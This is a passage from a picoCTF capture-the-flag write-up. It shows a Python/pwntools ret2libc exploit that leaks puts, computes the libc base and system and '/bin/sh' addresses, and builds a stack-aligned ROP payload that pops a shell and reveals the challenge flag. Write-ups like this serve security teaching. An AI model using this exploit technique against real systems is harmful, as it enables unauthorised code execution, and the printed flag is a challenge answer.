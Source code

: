 Next we get our runtime address and calculate the base address of libc's function in memory

```python
# receive the AAAA's we sent
print(p.recvline())


# receive the runtime address of puts
# we need to cut out the \n also
leaked_addr = p.recvline().strip(b"\n")
# convert it into the right format
leaked_addr = int.from_bytes(leaked_addr, byteorder = "little")

libc_puts_addr = libc.symbols["puts"]

libc_base_addr = leaked_addr - libc_puts_addr
```

Recall that the libc functions loaded into memory are at the same offsets, so we use this base address to find the other functions and strings. We utilize pwntools to save us time.

```
bin_sh_addr = next(libc.search(b"/bin/sh\x00")) + libc_base_addr
system_addr = libc.symbols["system"]            + libc_base_addr
```

With this we craft our next ROP chain. I'll show you a ROP chian that does NOT work

```python
# this line below won't work, because we need the stack to be aligned
# some 64-bit systems need the stack to be 16-byte aligned  
# i.e. address of $rsp ends with 0 address
payload = b"A" * 136 + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(system_addr)
```

The comment already explains why. So to align the stack, I just call `ret`.

```python
# but I like this solution more
payload = b"A" * 136 + p64(ret_addr) + p64(pop_rdi_addr) + p64(bin_sh_addr)  + p64(system_addr)
```

Once we send that, we just go interactive and then print the flag!

```python
print(p.recvuntil(b"VeR!\n"))

p.sendline(payload)

p.interactive()

```bash
[*] Switching to interactive mode
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}$ 
```

And we get our flag.
`picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}`

Also need to give credit to writeups that I read to help polish mine:
https://www.youtube.com/watch?v=hlHHiWoZKbs&lc=Ugy_3z4h0JfhuofZ7e14AaABAg
https://cyb3rwhitesnake.medium.com/picoctf-heres-a-libc-pwn-4184a99586d9
